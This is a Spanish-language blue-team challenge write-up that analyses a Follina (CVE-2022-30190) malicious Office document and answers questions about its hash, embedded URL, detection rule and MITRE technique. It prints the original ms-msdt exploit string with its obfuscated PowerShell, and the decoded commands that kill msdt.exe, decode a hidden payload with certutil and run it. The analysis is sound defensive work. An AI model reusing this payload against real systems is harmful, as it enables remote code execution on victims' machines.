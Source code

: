 ```yaml
---
title: Follina-Btlo
date: 2024-02-08 14:10:00 +0800
categories: [Btlo, Challenge]
tags: [writing]
render_with_liquid: false
img_path: Ghimg/btlo/challenge/Follina/img
---
```


## Escenario

Un viernes por la noche, cuando estaba de humor para celebrar su fin de semana, su equipo recibió una alerta con una nueva vulnerabilidad RCE que se estaba explotando activamente en la naturaleza. Se le ha encomendado la tarea de analizar e investigar la muestra para recopilar información para el equipo del fin de semana.

### Used tools
- VirusTotal 
- OSINT

### Resolution summary
- Usamos OSINT para abordar este challenge 
- Para saber mas sobre follina ir a: [Microsoft Office RCE - At  aque MSDT "Follina" (huntress.com)](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug)


## Presentación

**_Pregunta 1) ¿Cuál es el valor hash SHA1 de la muestra?_**

para calcular el hash de la muestra usamos ```sha1sum```

![ans1](Pasted_image_20240123161555_wf7jf0)


**_Pregunta 2) Según VirusTotal, ¿cuál es el tipo de archivo completo de la muestra proporcionada?_**

subimos el archivo o introducimos el hash en virustotal

![ans2](Pasted_image_20240123090711_qlonei)


**_Pregunta 3) Extraiga la URL que se utiliza dentro de la muestra y envíela_**

Extraemos el archivo para ver la coleccion de archivos xml

![[Pasted image 20240123162358.png]](Pasted_image_20240123162358_xymc2m)

vemos el archivo `document.xml.rels` que guarda los metadatos de nuestro documento, vemos **TargetMode="External"** con la url 

![[Pasted image 20240123162636.png]](Pasted_image_20240123162636_zsfm6p)


**_Pregunta 4) ¿Cuál es el nombre del archivo XML que almacena la URL extraída?_** 

El archivo que contienelos metadatos **document.xml.rels**


**_Pregunta 5) La URL extraída accede a un archivo HTML que desencadena la vulnerabilidad para ejecutar una carga maliciosa. De acuerdo con las funciones de procesamiento HTML, cualquier archivo con menos del `<Numero>` de bytes no invocaría la carga útil. Envíe el `<Número>`_**

RDF842l.html se ha asociado con una vulnerabilidad de ejecución remota de código en la herramienta de diagnóstico de soporte de Microsoft (MSDT), conocida como “Follina” 

este enlace ya no está disponible en línea, pero [@nao_sec](https://twitter.com/nao_sec/status/1530196847679401984) compartió el contenido original de RDF842l.html. [ANY.RUN](https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/)


```html

window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Invoke-Expression($(Invoke-Expression('[Sistema .Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+' JGNtZCA9ICJjOlx3aW5kb3dzXHN5c3RlbTMyXGNtZC5leGUiO1N0YXJ0LVByb2Nlc3MgJGNtZCAtd2luZG93c3R5bGUgaGlkZGVuIC1Bcmd1bWVudExpc3QgIi9jIHRhc2traWxsIC9mIC9pbSBtc2 R0LmV4ZSI7U3RhcnQtUHJvY2VzcyAkY21kIC13aW5kb3dzdHlsZSBoaWRkZW4gLUFyZ3VtZW50TGlzdCAiL2MgY2QgQzpcdXNlcnNccHVibGljXCYmZm9yIC9yICV0ZW1wJSAlaSBpbiAoMDU tMjAyMi0wNDM4LnJhcikgZG8gY29weSAlaSAxLnJhciAveSYmZmluZHN0ciBUVk5EUmdBQUFBIDEucmFyPjEudCYmY2VydHV0aWwgLWRlY29kZSAxLnQgMS5jICYmZXhwYW5kIDEuYyAtRjoqIC4mJnJnYi5le GUiOw=='+[char]34+'))'))))i/../../../../../../../../../../ ../../../../Windows/System32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO\"";
```

El exploit es un documento HTML que contiene una serie de caracteres A.  Una función de procesamiento HTML tenía un tamaño de búfer codificado y cualquier archivo de menos de 4096 bytes no activaría la carga útil. [Rich Warren](https://twitter.com/buffaloverflow/status/1531168929925713923)


**_Pregunta 6) Después de la ejecución, la muestra intentará eliminar un proceso si ya se está ejecutando. ¿Cómo se llama este proceso?_** 

```
$cmd = "c:\windows\system32\cmd.exe";
Start - Process $cmd  - windowstyle hidden  - ArgumentList "/c taskkill /f /im msdt.exe";
Start - Process $cmd  - windowstyle hidden  - ArgumentList "/c cd C:\users\public\&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe";
```

Al decodificar vemos que intenta eliminar el proceso `msdt.exe`



**_Pregunta 7) Se le pidió que escribiera una regla de detección basada en procesos con el identificador de evento de Windows 4688. ¿Cuáles serían ProcessName y ParentProcessname utilizados en esta regla de detección?_**

ID de evento de Windows 4688 se refiere a la creacion de un nuevo proceso.

Las cargas útiles ejecutadas por este vector de ataque crearán un proceso secundario de msdt.exe bajo el padre de Microsoft Office . [microsoft-office-remote-code-execution-follina-msdt-bug](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug)


**_Pregunta 8) Envíe el ID de la técnica MITRE utilizada por el ejemplo para la ejecución_**

vemos en mitre que la técnica para la ejecución de comandos 

![Pasted image 20240123182231.png](Pasted_image_20240123182231_vuayoz)


**_Pregunta 9) Enviar el CVE asociado a la vulnerabilidad que se está explotando_**

CVE-2022-30190

